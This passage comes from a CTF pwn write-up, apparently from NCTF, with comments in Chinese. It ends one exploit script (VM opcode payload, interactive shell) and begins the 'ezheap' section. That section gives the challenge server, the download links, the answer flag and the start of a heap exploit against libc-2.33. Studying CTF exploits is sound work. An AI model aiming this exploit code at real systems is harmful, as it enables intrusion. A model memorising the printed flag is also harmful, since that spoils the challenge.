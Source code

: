 ```python
opcode+="\x09"
opcode+="\x0C"

opcode+="\x03"
opcode+="\x08"
opcode+="\x00"+p64(0)
opcode+="\x06"
opcode+="\x00"+p64(4)
opcode+="\x07"
opcode+="\x00"+p64(0x50)
opcode+="\x09"
opcode+="\x0C"

opcode+="\x00"+p64(1)
opcode+="\x06"
opcode+="\x00"+p64(1)
opcode+="\x07"
opcode+="\x0C"

r.recvline()
#gdb.attach(r,"b *$rebase(0x16ca)")
r.send(opcode)

r.recvline()
r.send("flag")

r.interactive()
```

### ezheap

出题人ID: 影二つ

题目描述:

```
总之就是非常简单
nc 129.211.173.64 10002
```

附件链接:

```
http://download.kagehutatsu.com/Download/ezheap.zip
https://attachment.h4ck.fun:9000/pwn/ezheap/ezheap.zip
https://nctf.slight-wind.com/pwn/ezheap/ezheap.zip
```

flag:

```
flag{1ec61752948eb817e78b9a1b5810f326}
```

```python
from pwn import *
#r=remote("129.211.173.64",10002)
r=process('./main')
context.log_level='debug'

libc=ELF("./libc-2.33.so")

def new(size,content):
	r.recvuntil('>> ')
	r.sendline('1')
	r.recvuntil('Size: ')
	r.sendline(str(size))
	r.recvuntil('Content: ')
```